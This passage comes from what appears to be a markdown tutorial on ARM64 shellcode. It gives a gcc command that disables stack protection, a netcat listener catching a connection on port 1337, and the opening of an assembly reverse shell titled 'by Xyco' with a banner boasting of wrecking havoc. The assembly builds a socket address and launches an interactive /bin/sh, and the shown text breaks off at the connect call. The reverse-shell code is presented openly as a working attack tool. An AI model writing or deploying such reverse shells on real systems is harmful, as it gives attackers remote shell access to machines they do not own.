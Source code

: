 ```c

}
```

### Compile

```
gcc -g shellcode-exec2.c -o shellcode-exec2 -z execstack -fno-stack-protector
```

> :bulb:Yes, the stack must be set to executable here because we are working directly with shellcode.

### Netcat and Catch Connection

```
nc -lnvp 1337

./shellcode-exec2

Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 49428
```

##

## Another Solid Reverse Shell w/ Prompt

`ARM-revshell.s`:

```nasm
.section .data
prompt: .ascii "[!] ARM ASM Reverse Shell by Xyco [!]\n"
prompt_len = . - prompt
welcome: .ascii "[+] We're in... time to wreck some havoc [!]\n"
welcome_len = . - welcome

sockaddr:
        .ascii "\x02\x00"    // AF_INET
        .ascii "\x05\x39"    // port number 1337 
        .byte 0,0,0,0    // IP Address 
shell:
        .ascii "/bin/sh\0"

shell_args:
        .quad shell
        .quad shell_interactive
        .quad 0

shell_interactive:
        .ascii "-i\0"

.section .text
.global _start
_start:

// socket(2, 1, 0) 
        mov x0, #2
        mov x1, #1
        mov x2, #0
        mov w8, #198
        svc 0               // x0 = resultant sockfd 
        mov x4, x0          // save sockfd in x4 

// connect(r0, &sockaddr, 16) 
```